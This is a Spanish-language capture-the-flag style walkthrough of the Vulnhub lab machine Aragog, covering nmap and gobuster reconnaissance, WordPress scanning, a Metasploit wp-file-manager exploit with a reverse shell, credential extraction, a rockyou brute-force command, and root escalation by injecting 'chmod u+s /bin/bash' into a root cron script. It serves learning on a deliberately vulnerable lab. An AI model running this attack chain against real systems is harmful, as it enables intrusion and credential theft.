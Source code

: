Tiramos nuestra rutina de reconocimiento con nmap: 

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.101 -oN Target 

grep '^[1-9]' Target | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

nmap -sCV -p21,22,2222,80,9898 192.168.1.101 -oN TargetsCV
```

Gracias a nmap, vemos que hay un servicio ssh y un servicio http

```bash
PORT   STATE SERVICE REASON         VERSION  
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:    
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSJJ1ZAbIA3lP2RbpxnhknzLJqrHne4be3xTLmVEXWg7YQ6FFZ/RA1VzmrFYPlvB1t1XwopptI+nA9BSG5+hllLyCQ1pDZkhIwyGHuBLZETD8cIJTlsxVCwnh67h7eeK4hTEtjp1rUodK30juDf5  
u7JnkwVfo78LvM8WV1LjVrmhsZiqzy1CxAoMFpiRp3ZlvpblL3gdd0wgSNrGqEwc6qJc6Z+RKGkLbnpgTnOsc6vGLs1xFOGrHF2qFeDpUWti0ZDSN31LtP1HtNItbBKSECcFD3KrN8nPaZCa2V9GA1jrpOOAF1j0ehcRlBoFqLZzQbO9RFeIkgqGNrz3  
PDt7vp  
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBESZsj5u/F88CLIXTeBD8OgiCM2u8sKBgbvvjKccwFmCBMh3GmOHGP8qzzQwVTMkq1aN0WSIk7h8/cHCT2tZLzE=  
|   256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMsH4OtBIy/He42Rc6KvtI6w2855JMLVloVFy5/0Rtj4  
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))  
| http-methods:    
|_  Supported Methods: GET POST OPTIONS HEAD  
|_http-title: Site doesn't have a title (text/html).  
|_http-server-header: Apache/2.4.38 (Debian)  
MAC Address: 08:00:27:DD:94:52 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el servicio http no vemos nada, vamos a fuzzear con gobuster a ver si encontramos algo:

```bash
gobuster dir -u "http://192.168.2.72/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 20  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://192.168.2.72/  
[+] Method:                  GET  
[+] Threads:                 20  
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/blog                 (Status: 301) [Size: 311] [--> http://192.168.2.72/blog/]  
/javascript           (Status: 301) [Size: 317] [--> http://192.168.2.72/javascript/]  
/server-status        (Status: 403) [Size: 277]  
Progress: 224213 / 1185255 (18.92%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 226628 / 1185255 (19.12%)  
===============================================================  
Finished  
===============================================================
```


Encontramos la ruta hacia /blog, vamos a ver que hay

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a1baa27a-23a2-4239-a102-231170506ced" width="250" height="250">

No nos resuelve, así que vamos a ver el código fuente en busca de el nombre del host para poder meterlo dentro de nuestro /etc/hosts y así poder ver bien la página web. Al parecer hay un dominio **aragog.hogwarts** y un subdominio **wordpress.aragog.hogwarts** >> /etc/hosts. Una vez dentro del blog podemos ver que es un wordpress y ademas que la url de inicio de la administración de wordpress esta por defecto en /wp-admin. Tiramos un whatweb para ver que versión de wordpress es:

```bash
whatweb http://wordpress.aragog.hogwarts/blog
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f6ade782-0eec-4884-9a57-600b7da00300" width="1000" height="100">

Tiramos un searchsploit  y encontramos los siguientes scripts:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/bcbe6367-b017-4b5a-8469-b536742d92be)

Antes de ver estos sploits, vamos a ver que nos dice wpscan:

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog -e vp,u --api-token="APItoken"
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/407e2201-4858-4d53-ac69-3c2f667f5403" width="500" height="500">

wpscan nos reporta un montón de vulnerabilidades, vamos a escoger una que pinte bien :)

He probado muchas de las vulnerabilidades que hay en el wpscan y al parecer son falsos positivos, vamos a probar con mi siguiente opción que es el scanner de Metasploit:

`scanner/http/wordpress_scanner`

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/605653bd-9d51-45c5-95fc-5178a75c2775)

Encontramos en este scanner la siguiente vulnerabilidad `wp-file-manager`

En el mismo Metasploit vemos que existe un exploit que explota esta vulnerabilidad, pero antes de ejecutarlo vamos a ver que hace:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/4049d8a3-4811-4b49-91cf-29c85d92c10f)

viendo un poco por encima el exploit lo que hace es meter un archivo malicioso en wordpress ubicado en **/wp-content/plugins/wp-file-manager/lib/files/malicioso.php** ejecutarlo y una vez que nos entable la reverse shell lo elimina, pues vamos a ejecutarlo a ver que pasa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/fcfa2dbf-ab74-45e4-a1c3-aae753c22892)

Hacemos una reverse shell hacia mi máquina por comodidad: 

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f2764571-fe98-47b0-91c8-2e5da10fd86c)

Ahora con una consola mucho mas usable, pues lo primero que vamos hacer al saber que es un wordpress es buscar el archivo wp-config.php, dentro de el vemos una ruta muy interesante llamada config-default.php

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d790eaef-837e-4a94-b883-bc76c8771d22)

Dentro de este archivo pues se empieza a calentar la cosa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/28f0ab92-0cb7-453b-9790-4cc6acdf431d)

acabamos de sacar las credenciales de la base de datos de el wordpress, vamos a ver que hay dentro

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/17c61c3c-1d04-4beb-bb7c-0c8217d8f949)

dentro encontramos una password encriptada y un usuario con el que supongo que podemos entrar al wordpress, ahora con un usuario valido vamos a probar a hacer una fuerza bruta con el diccionario rockyou:

```bash
wpscan --url "http://192.168.1.101/blog" -U hagrid98 -P /usr/share/wordlists/rockyou.txt --api-token="ApiToken"
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/5a83444f-8ed1-4d67-8d68-0160db64c0a5)


Una vez hecha la fuerza bruta, conseguimos la contraseña xd, vamos a entrar por ssh a ver si toca la flauta y efectivamente se conecta al ssh:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d8af0a03-e81b-4c49-b085-614725db479b?with=250)

Conseguimos la flag de user, vamos a por el ruteo, empiezo con sudo -l el cual me dice que no esta instalado sudo en la máquina, buscamos por permisos SUID (find / -perm -4000 -ls 2>/dev/null) pues vamos a por tareas cron mi favorito, creamos el siguiente script para identificar tareas cron:

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a662c4b5-599c-4588-99d1-9f68793fb228?with=50)


y como vemos hay un script que cada cierto tiempo se ejecuta con privilegios... pues tan simple como meter dentro de este comando **chmod u+s /bin/bash** ahora la próxima vez que se ejecute la tarea cron va a tener permisos SUID la bash y ejecutando bash -p vamos a conseguir una consola como administrador.

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/557f5f7f-9578-44c9-be2d-5fb67ded3356?with=100) 

Dificultad 2/5


